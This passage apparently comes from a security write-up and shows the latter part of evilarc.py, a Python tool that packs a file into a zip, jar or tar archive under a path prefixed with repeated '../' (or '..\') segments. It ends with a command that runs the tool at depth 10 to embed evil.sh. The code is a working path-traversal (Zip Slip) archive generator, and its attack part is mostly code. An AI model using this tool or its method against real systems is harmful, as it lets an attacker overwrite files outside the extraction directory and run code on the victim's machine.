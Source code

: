 ```python
		sys.exit("Invalid input file")
		
	if options.platform == "win":
		dir = "..\\"
		if options.path and options.path[-1] != '\\':
			options.path += '\\'
	else:
		dir = "../"
		if options.path and options.path[-1] != '/':
			options.path += '/'

	zpath = dir*options.depth+options.path+os.path.basename(fname)
	print "Creating " + options.out + " containing " + zpath;	
	ext = os.path.splitext(options.out)[1]
	if os.path.exists(options.out):
		wmode = 'a'
	else:
		wmode = 'w'
	if ext == ".zip" or ext == ".jar":
		zf = zipfile.ZipFile(options.out, wmode)
		zf.write(fname, zpath)
		zf.close()
		return
	elif ext == ".tar":
		mode = wmode
	elif ext == ".gz" or ext == ".tgz":
		mode = "w:gz"
	elif ext == ".bz2":
		mode = "w:bz2"
	else:
		sys.exit("Could not identify output archive format for " + ext)

	tf = tarfile.open(options.out, mode)
	tf.add(fname, zpath)
	tf.close()



if __name__ == '__main__':
     main()

```

```cmd
python evilarc.py -d 10 -o unix evil.sh
```

![image-20220227164516027](README/image-20220227164516027.png)
